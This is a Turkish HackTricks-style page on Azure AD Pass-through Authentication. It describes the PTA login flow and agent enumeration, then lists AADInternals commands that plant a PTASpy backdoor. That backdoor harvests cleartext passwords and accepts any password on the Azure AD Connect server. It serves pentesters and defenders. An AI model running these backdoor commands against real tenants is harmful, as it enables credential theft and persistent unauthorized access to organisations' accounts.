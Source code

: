 # Az - PTA - Pass-through Authentication

{{#include ../../../banners/hacktricks-training.md}}

## Temel Bilgiler

[Belgelerden:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-pta) Microsoft Entra geçiş kimlik doğrulaması, kullanıcılarınızın **hem yerel hem de bulut tabanlı uygulamalara aynı şifreleri kullanarak giriş yapmalarını** sağlar. Bu özellik, kullanıcılarınıza daha iyi bir deneyim sunar - hatırlanacak bir şifre daha az ve IT yardım masası maliyetlerini azaltır çünkü kullanıcılarınızın giriş yapmayı unutma olasılığı daha düşüktür. Kullanıcılar Microsoft Entra ID kullanarak giriş yaptığında, bu özellik kullanıcıların şifrelerini doğrudan yerel Active Directory'nizle doğrular.

PTA'da **kimlikler** **senkronize** edilir ancak **şifreler** PHS'deki gibi **senkronize edilmez**.

Kimlik doğrulama yerel AD'de doğrulanır ve bulutla iletişim, **yerel bir sunucuda** çalışan bir **kimlik doğrulama ajanı** tarafından gerçekleştirilir (bu, yerel DC'de olmak zorunda değildir).

### Kimlik Doğrulama Akışı

<figure><img src="../../../../images/image (92).png" alt=""><figcaption></figcaption></figure>

1. Kullanıcı **giriş yapmak** için **Azure AD**'ye yönlendirilir, burada **kullanıcı adı** ve **şifre** gönderir.
2. **Kimlik bilgileri** **şifrelenir** ve Azure AD'de bir **kuvvet** içine yerleştirilir.
3. **Yerel kimlik doğrulama ajanı**, kuyruktan **kimlik bilgilerini** toplar ve **şifreler**. Bu ajana **"Geçiş kimlik doğrulama ajanı"** veya **PTA ajanı** denir.
4. **Ajan**, kimlik bilgilerini **yerel AD** ile **doğrular** ve **yanıtı** **Azure AD'ye geri** gönderir; eğer yanıt olumluysa, kullanıcı **girişi tamamlanır**.

> [!WARNING]
> Eğer bir saldırgan **PTA'yı ele geçirirse**, kuyruktaki tüm **kimlik bilgilerini** (şifrelenmemiş olarak) **görebilir**.\
> Ayrıca AzureAD'ye **herhangi bir kimlik bilgisini doğrulayabilir** (Skeleton key'e benzer bir saldırı).

### Sayım

Entra ID'den:
```bash
az rest --url 'https://graph.microsoft.com/beta/onPremisesPublishingProfiles/authentication/agentGroups?$expand=agents'
# Example response:
{
"@odata.context": "https://graph.microsoft.com/beta/$metadata#onPremisesPublishingProfiles('authentication')/agentGroups(agents())",
"value": [
{
"agents": [
{
"externalIp": "20.121.45.57",
"id": "4a000eb4-9a02-49e4-b67f-f9b101f8f14c",
"machineName": "ConnectSync.hacktricks-con.azure",
"status": "active",
"supportedPublishingTypes": [
"authentication"
]
}
],
"displayName": "Default group for Pass-through Authentication",
"id": "d372d40f-3f81-4824-8b9e-6028182db58e",
"isDefault": true,
"publishingType": "authentication"
}
]
}
```
Ajanın yerel sunucuda çalışıp çalışmadığını kontrol edin:
```bash
Get-Service -Name "AzureADConnectAuthenticationAgent"
```
## Pivoting

Eğer **PTA** **ajanı** çalışan **Azure AD Connect sunucusu** üzerinde **admin** erişiminiz varsa, **ALL the passwords** girilen **doğrulamak** için bir **backdoor** **eklemek** üzere **AADInternals** modülünü kullanabilirsiniz (böylece tüm şifreler kimlik doğrulama için geçerli olacaktır):
```bash
Install-Module AADInternals -RequiredVersion 0.9.3
Import-Module AADInternals
Install-AADIntPTASpy # Install the backdoor, it'll save all the passwords in a file
Get-AADIntPTASpyLog -DecodePasswords # Read the file or use this to read the passwords in clear-text

Remove-AADIntPTASpy # Remove the backdoor
```
> [!NOTE]
> Eğer **kurulum başarısız olursa**, bu muhtemelen eksik [Microsoft Visual C++ 2015 Redistributables](https://download.microsoft.com/download/6/A/A/6AA4EDFF-645B-48C5-81CC-ED5963AEAD48/vc_redist.x64.exe) nedeniyle olabilir.

Bu arka kapı şunları yapacaktır:

- Gizli bir klasör oluşturur `C:\PTASpy`
- `PTASpy.dll` dosyasını `C:\PTASpy`'ye kopyalar
- `PTASpy.dll` dosyasını `AzureADConnectAuthenticationAgentService` sürecine enjekte eder

> [!NOTE]
> AzureADConnectAuthenticationAgent servisi yeniden başlatıldığında, PTASpy “boşaltılır” ve yeniden kurulması gerekir.

> [!CAUTION]
> Bulutta **GA ayrıcalıkları** alındıktan sonra, **yeni bir PTA ajanı kaydetmek** mümkün olup, **önceki** adımları **tekrar** ederek **herhangi bir şifre ile kimlik doğrulaması yapmak** ve ayrıca, **şifreleri düz metin olarak almak** mümkündür.

### Seamless SSO

PTA ile Seamless SSO kullanmak mümkündür, bu da diğer kötüye kullanımlara açıktır. Bunu kontrol edin:

{{#ref}}
az-seamless-sso.md
{{#endref}}

## References

- [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-pta](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-pta)
- [https://aadinternals.com/post/on-prem_admin/#pass-through-authentication](https://aadinternals.com/post/on-prem_admin/#pass-through-authentication)

{{#include ../../../banners/hacktricks-training.md}}
